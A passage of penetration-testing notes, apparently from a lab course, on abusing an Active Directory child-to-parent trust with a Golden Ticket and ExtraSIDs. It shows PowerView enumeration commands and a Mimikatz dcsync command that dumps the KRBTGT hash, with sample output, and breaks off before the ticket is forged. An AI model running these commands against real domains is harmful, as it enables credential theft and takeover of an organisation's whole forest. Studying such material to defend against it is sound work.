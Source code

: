 #### Find Users in a Child Domain (Windows)

```bash
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

#### Domain Trusts - Child -> Parent Trusts

A **Golden Ticket Attack** occurs when an attacker compromises the **KRBTGT** account in an Active Directory (AD) domain, allowing them to forge **Kerberos Ticket-Granting Tickets (TGTs)** and gain persistent access.

The **ExtraSIDs Attack** extends this by adding extra **Security Identifiers (SIDs)** to a forged ticket, allowing attackers to escalate privileges or gain access to resources in other domains/forests.
#### ExtraSIDs Attack

**(LOGISTICS.INLANEFREIGHT.LOCAL --> INLANEFREIGHT.LOCAL)**

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

The KRBTGT hash for the child domain:

```bash
lsadump::dcsync /user:LOGISTICS\krbtgt

Hash NTLM: 9d765b482771505cbe97411065964d5f
```

The SID for the child domain:

```bash
Import-Module .\PowerView.ps1
Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

The name of a target user in the child domain (does not need to exist!):  `hacker`

The SID of the Enterprise Admins group of the root domain:

```bash
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

With this information, we can now generate a `Golden Ticket`. In Mimikatz:
